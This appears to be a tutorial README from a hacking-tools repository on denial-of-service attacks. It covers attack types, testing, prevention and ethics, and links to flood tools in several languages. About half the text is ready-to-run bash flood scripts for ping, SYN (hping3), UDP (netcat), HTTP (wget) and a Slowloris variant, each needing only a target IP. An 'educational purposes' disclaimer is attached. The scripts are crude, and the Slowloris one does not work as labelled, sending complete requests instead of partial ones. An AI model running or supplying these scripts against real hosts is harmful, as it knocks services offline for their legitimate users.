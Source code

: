 **1. Understanding DoS Attacks:**

A Denial of Service (DoS) attack is a malicious attempt to disrupt normal traffic of a targeted server, service, or network by overwhelming it with a flood of traffic, rendering it inaccessible to legitimate users. DoS attacks can range from simple to sophisticated, and they can be launched using various techniques.

**2. How DoS Attacks Work:**

The general principle behind a DoS attack is to flood the target with an overwhelming volume of traffic, thus exhausting its resources such as bandwidth, CPU, memory, or network connections. This prevents the target from responding to legitimate requests, effectively denying service to its intended users.

**3. Types of DoS Attacks:**

   a. **Ping Flood:** Sends an overwhelming number of ICMP Echo Request packets to the target, consuming its bandwidth and potentially crashing the target's network stack.
   
   b. **SYN Flood:** Exploits the TCP handshake process by sending a flood of SYN packets without completing the handshake, exhausting the target's resources and preventing legitimate connections.
   
   c. **UDP Flood:** Sends a large number of UDP packets to random ports on the target, consuming its bandwidth and potentially overwhelming its resources.
   
   d. **HTTP Flood:** Floods the target server with HTTP requests, often generated by a botnet, to exhaust its resources and disrupt its services.
   
   e. **Slowloris:** Opens multiple HTTP connections to the target server and sends partial HTTP requests, keeping the connections open for as long as possible and exhausting server resources.
   
   f. **DNS Amplification:** Exploits misconfigured DNS servers by sending small DNS queries with spoofed source IP addresses to elicit large responses to the target, overwhelming its bandwidth.
   
   g. **NTP Amplification:** Similar to DNS amplification, but exploits vulnerable NTP servers to amplify traffic towards the target.

**4. Testing for DoS Vulnerabilities:**

When testing for DoS vulnerabilities, it's crucial to do so in a controlled environment and with proper authorization. Using specialized tools like Hping, LOIC (Low Orbit Ion Cannon), or tools from the Kali Linux distribution can help simulate DoS attacks and test the resilience of systems against them.

**5. Example Bash Script for Testing:**

```bash
#!/bin/bash

# Simple UDP Flood script using netcat

TARGET_IP="target_ip_address"
TARGET_PORT=12345
MESSAGE="A" # Change this to modify the payload

while true; do
    echo -n "$MESSAGE" | nc -u -w0 $TARGET_IP $TARGET_PORT &
done
```

Replace `target_ip_address` with the IP address of the target and `12345` with the target port.

**6. Prevention Techniques:**

   a. **Firewalls and Intrusion Prevention Systems (IPS):** Configure firewalls and IPS to filter and block malicious traffic.
   
   b. **Rate Limiting:** Implement rate limiting mechanisms to restrict the number of requests from a single source.
   
   c. **Traffic Filtering:** Use traffic filtering techniques to drop packets from known malicious sources or those exhibiting suspicious behavior.
   
   d. **Load Balancers:** Distribute incoming traffic across multiple servers to mitigate the impact of DoS attacks.
   
   e. **Regular Updates and Patching:** Keep systems and software up-to-date with the latest security patches to address known vulnerabilities.
   
   f. **DDoS Protection Services:** Employ DDoS protection services from specialized providers to mitigate large-scale attacks.

**7. Ethical Considerations:**

It's essential to perform DoS testing and mitigation efforts ethically and with proper authorization. Unauthorized DoS attacks against systems can cause significant disruption and legal consequences.


**1. Ping Flood:**
```bash
#!/bin/bash

TARGET_IP="target_ip_address"

while true; do
    ping -c 1 $TARGET_IP >/dev/null &
done
```

**2. SYN Flood:**
```bash
#!/bin/bash

TARGET_IP="target_ip_address"
TARGET_PORT=80

while true; do
    hping3 -c 10000 -d 120 -S -w 64 -p $TARGET_PORT --flood $TARGET_IP
done
```

**3. UDP Flood:**
```bash
#!/bin/bash

TARGET_IP="target_ip_address"
TARGET_PORT=12345
MESSAGE="A" # Change this to modify the payload

while true; do
    echo -n "$MESSAGE" | nc -u -w0 $TARGET_IP $TARGET_PORT &
done
```

**4. HTTP Flood:**
```bash
#!/bin/bash

TARGET_IP="target_ip_address"
TARGET_PORT=80
URI="/"

while true; do
    wget -q -O /dev/null "http://$TARGET_IP$URI" >/dev/null &
done
```

**5. Slowloris:**
```bash
#!/bin/bash

TARGET_IP="target_ip_address"
TARGET_PORT=80
CONNECTIONS=1000

for ((i=0;i<$CONNECTIONS;i++)); do
    (exec 3<>/dev/tcp/$TARGET_IP/$TARGET_PORT && echo -e "GET / HTTP/1.1\nHost: $TARGET_IP\n\n" >&3) &
done
```

**Note:** These scripts are provided for educational purposes only. Do not use them to launch attacks against unauthorized systems. Always obtain proper authorization and ensure compliance with applicable laws and regulations before conducting security testing. Unauthorized DoS attacks are illegal and unethical.

## Corresponding Tools

- [**Bash**](https://github.com/saidehossain/Hacking_Tools/blob/main/hacking_with_bash/DoS.sh)
- [**C++**](https://github.com/saidehossain/Hacking_Tools/blob/main/hacking_with_c%2B%2B/Dos.cpp)
- [**Go**](https://github.com/saidehossain/Hacking_Tools/blob/main/hacking_with_go/DoS.go)
- [**Perl**](https://github.com/saidehossain/Hacking_Tools/blob/main/hacking_with_perl/DoS.pl)

